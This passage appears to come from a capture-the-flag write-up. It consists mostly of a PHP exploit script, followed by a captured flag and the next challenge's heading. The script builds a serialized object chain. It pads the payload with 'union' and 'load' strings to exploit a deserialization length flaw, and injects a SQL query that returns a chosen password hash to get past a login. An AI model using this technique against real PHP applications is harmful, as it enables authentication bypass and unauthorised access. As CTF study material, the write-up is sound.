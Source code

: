 ```php
    public $database = "noob123";
//    public $hostname = "127.0.0.1";
//    public $dbuser = "root";
//    public $dbpass = "123456";
//    public $database = "test";
    public $name="admin";
    public $password="1";
    public $mysqli;
    public $token;
}
class User
{
    public $id=0;
    public $age;
    public $nickname;
    public function __construct()
    {
        $this->nickname=new Info();
        $this->age='select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?';
    }
}
function escape($str)
{
    $evil='';
    $len=strlen($str)+2;
    if($len%2)
    {
        $evil.="union";
        $len-=1;
    }
    $len/=2;
    while($len)
    {
        $evil.="load";
        $len-=1;
    }
    return $evil.'";'.$str;

}
$call__tostring=new UpdateHelper(new User());
$ser= urlencode(serialize($call__tostring));
echo urlencode(escape("s:8:\"CtrlCase\";".urldecode($ser).';};'));

```



` flag{7989f259-3281-4c1c-8939-dc8bc0b5375b} `



### easysqli_copy
